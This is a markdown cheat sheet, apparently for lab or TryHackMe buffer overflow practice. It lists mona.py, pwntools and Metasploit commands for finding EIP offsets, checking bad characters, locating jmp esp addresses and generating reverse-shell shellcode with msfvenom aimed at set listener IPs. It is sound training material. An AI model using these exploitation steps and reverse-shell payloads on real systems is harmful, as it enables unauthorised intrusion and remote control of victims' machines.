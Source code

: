 ## Mona CheatSheet

**Setup your working directory**
In Immunity Debugger, type the following to set a working directory for mona.
`!mona config -set workingfolder c:\mona\%p`

https://github.com/corelan/mona 

https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

<br>
<br>


# Generating unique patterns
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```



`!mona findmsp -distance 600 `

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  -l 2400 -q 6F43396E`

# Bad Chars

**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your badchar script and compare with mona**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## Finding a jump point 
You have control of EIP, but need an address that will jump to a new stack location. You need to find a `jmp esp`

```
!mona jmp -r esp -cpb "\x00"
!mona jmp -r esp -cpb "\x00\x0a\x0d"
```
This will return you a list of memory addresses that you can use. Pick one and save it. We'll need it in a second.


## MSF Payloads

`msfvenom -l payloads `

`msfvenom -p windows/shell_reverse_tcp LHOST=10.6.19.12 LPORT=9009 EXITFUNC=thread -b "\x00" -f python -v "shellcode"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a" > shelloutput1.txt`

`sed -z 's/\n//g' shelloutput1.txt | sed -z 's/"//g' - `

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 
